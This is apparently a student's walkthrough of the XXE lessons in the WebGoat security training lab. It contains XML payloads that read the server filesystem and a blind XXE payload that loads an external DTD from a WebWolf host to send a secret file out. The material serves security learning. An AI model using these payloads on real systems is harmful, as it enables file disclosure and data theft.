

# (A4) XML External Entities (XXE)

## XXE

### Lesson 4: Let’s try

The objective of this lesson is to list root directory of server filesystem.

- Cache the request in Burp Suite

- put code below into request body

  ``` xml
  <?xml version="1.0"?>
    <!DOCTYPE comment [<!ENTITY fs SYSTEM "file:///">]>
    <comment>
      <text>
        &fs;
      </text>
    </comment>
  ```

  

### Lesson 7: Modern REST framework

It is basicly the same as previous one with [one](#lesson-4-lets-try) minor difference. The endpoint accepts not only `application/json` but also `application/xml` which is side effect that you will use.

- As prevoious, catch the request, put the code and remember to change `Content-Type` header to `application/xml`

### Lesson 11: Blind XXE assignment

- Upload file `attack.dtd` to WebWold

- Similarly to previous lessons replace request body with following code

  ``` xml
  <?xml version="1.0" encoding="UTF-8"?>  
  <!DOCTYPE xxe [  
  <!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-8.0.22//XXE/secret.txt" >  
  <!ENTITY % dtd SYSTEM "http://localhost:9090/files/254622/attack.dtd" >  
  %dtd;]>  
  <comment>  
    <text>
      Nice cat&secret;
    </text>  
  </comment>
  ```

- Then in `incoming requests` tab in WebWolf should be one new request

- Go to WebGoat lesson and send any new comment

- There should be new comment, something like `tWebGoat 8.0 rocks... (SOblsQLjDv)` - paste is and submit.
